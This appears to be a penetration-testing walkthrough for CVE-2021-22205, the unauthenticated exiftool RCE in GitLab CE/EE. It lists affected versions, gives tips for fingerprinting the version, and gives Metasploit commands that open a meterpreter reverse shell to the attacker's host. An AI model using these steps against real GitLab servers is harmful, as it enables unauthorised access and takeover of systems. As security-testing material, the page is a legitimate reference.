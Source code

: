 # Gitlab - Unauthenticated RCE with exiftool

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Try to find the version of Gitlab

First of all, before trying to exploit the rce, try to find the version of gitlab. 

- Authenticated: the version can often be found on `/help` endpoint with authenticated account.
    
    ![](imgs/gitlab_version.png)
    
- Unauthenticated: with recent version the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    ![](imgs/gitlab_approximative_version.png)
    
### Step 2: Setup metasploit
    
This RCE technique is available on metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```

### Enjoy your shell

After running the metasploit module, if gitlab is vulnerable you will have an meterpreter session.

![](imgs/metasploit_gitlab_rce.png)


References

[Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
[Hackerone report](https://hackerone.com/reports/1154542)  
[Gitlab issue](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  